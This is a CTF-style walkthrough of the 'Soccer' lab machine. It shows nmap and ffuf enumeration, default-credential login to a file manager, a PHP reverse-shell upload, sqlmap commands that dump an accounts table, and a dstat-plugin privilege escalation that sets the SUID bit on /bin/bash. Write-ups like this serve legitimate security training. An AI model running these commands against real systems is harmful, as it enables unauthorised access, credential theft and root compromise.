 # Soccer!
## @Author : M3tr1c_r00t
![banner](https://camo.githubusercontent.com/073e235e265e93e1e82e40688aa2678086f81f0db993d0771d9ea43073b6f943/68747470733a2f2f692e696d6775722e636f6d2f6f647667306e732e706e67)
Soccer is an easy linux machine where you dump creds from an sql database to gain user priviledges and exploit the doas binary to root.

### Enumeration...
***Nmap...***
```
# Nmap 7.92 scan initiated Sun Dec 18 06:02:09 2022 as: nmap -sC -sV -A -p 22,80,9091 -oN nmapports.txt 10.129.87.122
Nmap scan report for 10.129.87.122
Host is up (0.24s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Sun, 18 Dec 2022 03:01:58 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Sun, 18 Dec 2022 03:01:59 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   234.01 ms 10.10.14.1
2   235.04 ms 10.129.87.122

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 18 06:02:50 2022 -- 1 IP address (1 host up) scanned in 41.42 seconds

```
We can visit the web-server and get a look at it...
![](https://camo.githubusercontent.com/f4aad111594a8025b94345372a5f5c2f2e494a6e0e2260b75ac993d84024bc31/68747470733a2f2f692e696d6775722e636f6d2f595670587177372e6a7067)

***Ffuf scan...***
```
ffuf -u http://soccer.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://soccer.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

#                       [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 246ms]
# directory-list-lowercase-2.3-medium.txt [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 247ms]
#                       [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 247ms]
# Copyright 2007 James Fisher [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 248ms]
# Priority ordered case insensative list, where entries were found  [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 249ms]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 249ms]
# on atleast 2 different hosts [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 249ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 250ms]
#                       [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 250ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 250ms]
                        [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 251ms]
#                       [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 252ms]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 239ms]
# This work is licensed under the Creative Commons  [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 239ms]
tiny                    [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 234ms]

```

#### Access as www-data...
![](https://camo.githubusercontent.com/cb260cd3cbf069858f0ea8d5c1837f0ce9a318ed6b9fb05cefa571c51d014284/68747470733a2f2f692e696d6775722e636f6d2f77484a37327a692e706e67)

Seeing this manager framework, i went to google and found its default creds which gave me initial access...
![](https://camo.githubusercontent.com/ef7fabe3fd8b61faad523f421a4967c27848f860c633843bf8b6dba6020d387a/68747470733a2f2f692e696d6775722e636f6d2f394c444e6a38672e706e67)
Now, we can upload files to the manager...
![](https://camo.githubusercontent.com/712f804b30d8f8c5e371f37781517f8a26c4eb23de2aecb1917eea9133a515ac/68747470733a2f2f692e696d6775722e636f6d2f516256736f466c2e706e67)
With that, we can now upload files to the tiny directory.
<br> So, we can upload a php reverse shell...
![](https://camo.githubusercontent.com/0767eef0973e94c89042f6ec0cf728da78c6bb937b40de413987f976587db40c/68747470733a2f2f692e696d6775722e636f6d2f64743035766e482e706e67)
Get from payloadsallthethings github...
![](https://camo.githubusercontent.com/4a13049534ff767cf8df09d537233490ed14278b29c237de0512141e48b83ce7/68747470733a2f2f692e696d6775722e636f6d2f435a6e7a4361332e706e67)
Next, set up your listener then run the phprevscript....
![](https://camo.githubusercontent.com/e104b53149440dbb4d1e6c0e52a34783b140e686f2a619142f0bf2d2b5fc2e5f/68747470733a2f2f692e696d6775722e636f6d2f72427761434c682e706e67)

#### User Access...
While in the machine, i found some creds to a sql database...
<br> With that, i looked at the box's open ports and found an internal database...
![](https://camo.githubusercontent.com/9593af8cce39e49bdebb66c651243927312eed03aca636ca42d19f8c02504d4e/68747470733a2f2f692e696d6775722e636f6d2f414c354d7a565a2e706e67)
(I was playing a K.O.T.H game, hence the lower left terminal ':)')
So that i could try and dump the database, i first connected the machine to chisel, then ran sqlmap against the port ...
```
refernces:

<ambassador>
https://ap3x.github.io/posts/pivoting-with-chisel/
```
![](https://camo.githubusercontent.com/5f362d3bbda39f31be8b93de1e072f1877ba6d2288a229e69f03c4ea4f35b3a8/68747470733a2f2f692e696d6775722e636f6d2f4c455a4b4873372e706e67)
Sqlmap verifies that the databse is vulnerable and we can do a dump...
```
sqlmap -u "http://localhost:8081/?id=1" --batch -dbs
```
![](https://camo.githubusercontent.com/2d28ffe7d7274b19ed5022293f9b9849a990f7f05d4240e27bf18e2fbdff3c23/68747470733a2f2f692e696d6775722e636f6d2f49747166574e472e706e67)
Now, dump the database...
you can also check out the databases qualities using...
```
sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -D soccer_db -tables
sqlmap -u "http://127.0.0.1:8081/?id=1" --batch -D soccer_db -T accounts -columns

```
Dumping ...
```
 sqlmap -u "http://localhost:8081/?id=1" --batch -D soccer_db -T accounts -C username,password -dump
```
![](https://camo.githubusercontent.com/18b94d1c6c4c003aa8d9a2fd81ceae59882d2e4d55c3c24671768268e4ab2dbd/68747470733a2f2f692e696d6775722e636f6d2f4e4653414c7a762e706e67)
And we've gotten the creds...
### Priv Esc...
Checking out the suid files...
```
player@soccer:~$ find / -perm -4000 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/at
```
We can see there's a doas binary...
<br> Also, in the /usr/local/etc/ directory, we find a doas.conf file which allows the user to run the doas binary without root password as root...
```
player@soccer:/usr/local/etc$ cat doas.conf 
permit nopass player as root cmd /usr/bin/dstat
```
It also tells us that we can run dstat as root...
![](https://camo.githubusercontent.com/8588f3ad776875c71ae2a8698a66d67d84be3ab536313081f21019c1244c9e1e/68747470733a2f2f692e696d6775722e636f6d2f486e76786d50392e706e67)
After a bit of googling, we find that dstat has plugins...
![](https://camo.githubusercontent.com/b6bada500cc0ead494d9b5789cab6df6d5413ba55bc52bb9c21cea9129ea7025/68747470733a2f2f692e696d6775722e636f6d2f396d68544f795a2e706e67)
It says that a person can create thier own plugin for dstat, and with that, we have our entry point...

Another good thing, we have write permissions in dsats plugin directory...
```
player@soccer:~$ ls -la /usr/local/share/dstat
drwxrwx--- 2 root player 4096 Dec 12 14:53 .
drwxr-xr-x 6 root root   4096 Nov 17 09:16 ..
```
We can then create a python script that returns the bash suid capabilities...
```
player@soccer:/usr/local/share/dstat$ echo 'import os;os.system("chmod u+s /bin/bash")' > dstat_privesc.py

```
![](https://camo.githubusercontent.com/67b42a0ea41691813ff97f3e9a52715074f4bf5895be194a95f772af35e18890/68747470733a2f2f692e696d6775722e636f6d2f767577706e34312e6a7067)



```
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --privesc &>/dev/null
```
After that, run the script...
<br> Then type bash -p and we are root!

Done!
### Socials
@Instagram:https://instagram.com/M3tr1c_r00t
<br>@Twitter:https://twitter.com/M3tr1c_root
